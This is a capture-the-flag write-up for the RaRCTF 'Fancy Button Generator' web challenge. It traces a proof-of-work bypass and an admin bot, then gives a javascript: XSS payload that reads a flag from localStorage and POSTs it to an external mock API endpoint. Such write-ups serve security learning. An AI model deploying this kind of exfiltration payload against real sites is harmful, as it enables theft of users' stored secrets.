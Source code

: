 # RaRCTF: Fancy Button Generator

Check out this cool new fancy button generator! The buttons even glow!

https://fbg.rars.win/

Make sure to test your payloads using the full environment provided.

## Analysing the source code

We are given two folders, `admin` and `chall`. One is running an `express` server and one is running a `flask` server.

We are presented with the following site:

![site](static/site.jpg)

We can enter a title and link and it generates the following page:

![button](static/button.jpg)

Clicking on the button simply sends us to the link that we input.

Analysing the `chall` folder, we are greeted with the following endpoints:

- `/` GET request which displays the `index.html` file
- `/admin` POST request which triggers some form of POST request to the `express` server when the conditions are met
- `/pow` POST request which generates a cookie
- `/pow` GET request which generates the challenge we are required to solve

By heading to the `/pow` site, we are greeted with a randomly generated set of hexademical characters of length 4.
`{"pref":"2db5","suff":"5232"}`

From the source code, we need to bypass the `verify` function found in `pow.py`, which is essentially solving a `SHA256` hash to have minimally 6 trailing zeros in its resultant hash. The `solve` method is already given, and we can just enter the `pref` and `suff` that we just obtained to get the answer.

```python
def verify(prefix, suffix, answer, difficulty=6):
    hash = hashlib.sha256(prefix.encode() + answer.encode() + suffix.encode()).hexdigest()
    return hash.endswith("0"*difficulty)

def solve(prefix, suffix, difficulty):
    while True:
        test = binascii.hexlify(os.urandom(4)).decode()
        if verify(prefix, suffix, test, difficulty):
            return test
```

Once we have the answer, we can then make a `POST` request to the `/pow` endpoint. This essentially gets the flask server to set the session storage cookie to have a `verified` param, as well as a valid `end` param. Note that the sesison storage cookie is only valid for 30 seconds.

I used Insomnia to make the post request, hence, I copied the resultant cookie value into a browser to modify the cookie value, and made a `GET` request to the `/admin` endpoint.

We are then greeted with the following information: `Nice button! The admin will take a look. Current queue position: 1`. It kind of looks like we have hit a dead end, but we have yet to check out the `express` server in full detail.

## Express server

Once we have reached this point, we notice that a post request was made to the endpoint `/xss/add` of the `express` server from the following lines of code of the `admin` endpoint.

```python
title = request.args.get('title')
link = request.args.get('link')
host = random.choice(["admin", "admin2", "admin3"])
r = requests.post(f"http://{host}/xss/add", json={"title": title, "link": link}, headers={"Authorization": os.getenv("XSSBOT_SECRET")})
return f'Nice button! The admin will take a look. Current queue position: {r.json()["position"]}'

```

Upon checking out the files, we can see that the `express` server runs a queue to process each request.

```js
const admin = require("./admin.js");

app.post("/xss/add", (req, res) => {
    if(!req.headers.authorization || req.headers.authorization !== process.env.XSSBOT_SECRET) {
        return res.end("unauthorized");
    }

    let length = admin.addToQueue(req.body);
    res.send({"position": length});
    return res.end();
});

```

We can then take a look into `admin.js`.

In `admin.js` we find that the request is being processed by a headless `puppeteer` instance to access a link. We notice that the flag is being loaded into the instance's localstorage, and it accesses the `button` link of the site. 

```js
await page.evaluate(flag => {
    localStorage.flag = flag;
}, process.env.FLAG);

let url = process.env.SITE + "button?title=" + req.title + "&link=" + req.link;
console.log("Going to ", url);
await page.goto(url, {
    waitUntil: "networkidle2"
});
await page.click("#btn");

```

Most importantly, we notice that it clicks on the `button` with an id of `#btn`. We can now take a step back to look into the html files that were provided.

## Reviewing HTML files

We notice that the button we saw earlier that was generated has an id of `btn`. It also has the `href` value take on whatever `link` that we give to the site.

```html
<a class="special-case" id="btn" href="{{ link }}"><button class="special-button"> {{ title }}</button></a>
```

Fantastic, we can now deduce that some form of XSS is involved. We can verify that this works by passing `javascript: alert(1)` into the `link` field, and clicking the button. We notice that an alert message indeed appears when we click the button.

![alert](static/alert.jpg)

Since we know that the `flag` is stored in the `localStorage` with key `flag`, we can simply pass in a script to extract the `flag`. The issue however is we need a place to dump the flag to. This is where I utilised a [mockapi](https://mockapi.io/) to receive a `POST` request with the flag. I used the following script:

```javascript
javascript:
var request = new XMLHttpRequest();
request.open("POST", "MOCKAPIENDPOINTHERE", false);
request.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
request.send(localStorage.getItem("flag")); 
```

To piece everything together, we do the following:

1. Solve POW challenge and obtain the right session cookie from the server
2. Make a GET request to the `/admin` endpoint with the above script as a param in the `link`.
3. Retrieve the flag from the API.

We then get the flag: `rarctf{th0s3_f4ncy_butt0n5_w3r3_t00_cl1ck4bl3_f0r_u5_a4667cb69f}`

